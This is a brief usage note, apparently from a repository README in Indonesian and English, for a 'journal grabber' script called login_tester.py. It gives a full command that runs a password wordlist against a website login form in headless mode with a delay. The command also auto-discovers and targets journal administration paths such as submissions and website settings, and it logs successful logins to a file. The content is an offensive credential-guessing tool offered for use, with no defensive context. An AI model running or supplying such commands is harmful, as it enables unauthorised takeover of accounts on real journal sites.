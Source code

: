 how to use journal grabber

python login_tester.py \
--url https://namadomain.com/akseslogin \
--user_field "form[action*='login'] input[name='username']" \
--pass_field "form[action*='login'] input[name='password']" \
--wordlist wordlist.txt \
--auto_discover \
--target_paths "submissions,manager/setup/1,management/settings/website" \
--delay 2 \
--headless

setelah selesai running diatas, result nya bisa dicek di success_log.txt
